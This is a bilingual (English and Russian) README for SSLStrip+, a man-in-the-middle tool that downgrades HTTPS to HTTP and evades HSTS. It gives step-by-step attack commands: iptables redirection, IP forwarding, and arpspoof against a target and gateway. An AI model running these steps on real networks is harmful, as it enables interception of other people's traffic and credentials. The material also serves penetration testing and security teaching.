 SSLStrip+
=========

This is a new version of [Moxie´s SSLstrip] (http://www.thoughtcrime.org/software/sslstrip/) with the new feature to avoid HTTP Strict Transport Security (HSTS) protection mechanism.  
  
This version changes HTTPS to HTTP as the original one plus the hostname at html code to avoid HSTS. Check my slides at BlackHat ASIA 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) for more information.  
  
For this to work you also need a DNS server that reverse the changes made by the proxy, you can find it at https://github.com/LeonardoNve/dns2proxy.


Demo video at: http://www.youtube.com/watch?v=uGBjxfizy48

Ru:

Это новая версия [Moxie´s SSLstrip] (http://www.thoughtcrime.org/software/sslstrip/) с новой возможностью обхода механизма защиты HTTP Strict Transport Security (HSTS).  
  
Эта версия меняет HTTPS на HTTP, как и оригинальная версия, плюс имя хоста в html-коде, чтобы избежать HSTS. Посмотрите мои слайды на BlackHat ASIA 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) для получения дополнительной информации.  
  
Для того чтобы это работало, вам также нужен DNS-сервер, который обращает изменения, сделанные прокси, вы можете найти его по адресу https://github.com/LeonardoNve/dns2proxy.

Установка:
(Всё делать под root!)
1. Рекомендуется использовать python 2.7.18 (установка на kali: https://www.kali.org/docs/general-use/using-eol-python-versions/)
2. pip install -r requirements.txt
3. python sslstrip.py

Использование (взято: https://kali.tools/?p=177):
1. Сбросить все правила для цепей.
iptables --flush && iptables -t nat --flush (Выполнять и при завершении атаки)

2. Переключите вашу машину в режим пересылки (форвардинга).
echo "1" > /proc/sys/net/ipv4/ip_forward

3. Настройте iptables для редиректа HTTP трафика на sslstrip.
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <listenPort>

4. Запустите sslstrip.
sslstrip.py -l <listenPort>

5. Запустите arpspoof, чтобы убедить сети, что им следует отправлять их трафик вам.
arpspoof -i <interface> -t <targetIP> <gatewayIP>
  
(Я не несу ответственности за ваши действия! Я за использование данного инструмента в образовательных целях!)
